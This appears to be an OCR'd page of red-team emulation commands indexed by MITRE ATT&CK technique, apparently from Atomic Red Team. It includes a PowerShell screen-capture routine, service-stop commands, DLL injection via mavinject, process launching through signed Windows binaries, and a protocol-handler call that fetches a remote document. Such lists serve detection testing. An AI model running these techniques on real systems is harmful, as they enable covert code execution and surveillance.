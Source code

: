    $graphics.CopyFromScreen($bounds.Location, [Drawing.Point]::Empty, $bounds.size);
   $bmp.Save($path);
   $graphics.Dispose();
   $bmp.Dispose();
}
if ($loadResult) {
  $bounds = [Drawing.Rectangle]::FromLTRB(0, 0, 1000, 900);
  $dest = "$HOME\Desktop\screenshot.png";
  screenshot $bounds $dest;
  if (Test-Path -Path $dest) {
    $dest;
    exit 0;
  };
};
exit 1;
* powercmd.exe /c/collection/screenshot
* python/collection/osx/native_screenshot
* python/collection/osx/native_screenshot_mss
* python/collection/osx/screenshot
##T1064: Scripting
##T1597: Search Closed Sources
##T1596: Search Open Technical Databases
##T1593: Search Open Websites/Domains
##T1594: Search Victim-Owned Websites
##T1505: Server Software Component
##T1489: Service Stop
* net.exe stop spooler
* sc.exe stop spooler
* taskkill.exe /f /im spoolsv.exe
* quit app "Microsoft Outlook.app"
##T1129: Shared Modules
* malware.dll
* control.exe
* rundll32.exe
##T1051: Shared Webroot
##T1218: Signed Binary Proxy Execution
* SyncAppvPublishingServer.exe "n; Start-Process calc.exe"
* #{renamed_binary} #{xml_payload} output.txt
* FOR /F "tokens=2*" %a in ('reg query "HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\Winword.exe" /V PATH') do set microsoft_wordpath=%b
call "%microsoft_wordpath%\protocolhandler.exe" "ms-word:nft|u|https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218/src/T1218Test.docx"
* #{mwcpath}\microsoft.workflow.compiler.exe "#{xml_payload}" output.txt
* Invoke-ATHRemoteFXvGPUDisablementCommand -ModuleName #{module_name} -ModulePath $PWD
* mavinject.exe 1000 /INJECTRUNNING #{dll_payload}
* Invoke-ATHRemoteFXvGPUDisablementCommand -ModuleName foo -ModulePath #{module_path}
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\#{mwcname} "#{xml_payload}" output.txt
* mavinject.exe|SyncAppvPublishingServer.exe
##T1216: Signed Script Proxy Execution
* C:\windows\system32\SyncAppvPublishingServer.vbs "\n;Start-Process calc"
* set comspec=%windir%\System32\calc.exe
cscript %windir%\System32\manage-bde.wsf
* PubPrn.vbsPubPrn.vbs
##T1072: Software Deployment Tools
* "%PROGRAMFILES(x86)%/Radmin Viewer 3/Radmin.exe"
* "#{radmin_exe}"
##T1518: Software Discovery
* /usr/libexec/PlistBuddy -c "print :CFBundleShortVersionString" /Applications/Safari.app/Contents/Info.plist
/usr/libexec/PlistBuddy -c "print :CFBundleVersion" /Applications/Safari.app/Contents/Info.plist
* reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Internet Explorer" /v svcVersion
* Get-ItemProperty HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, Publisher, InstallDate | Format-Table -Autosize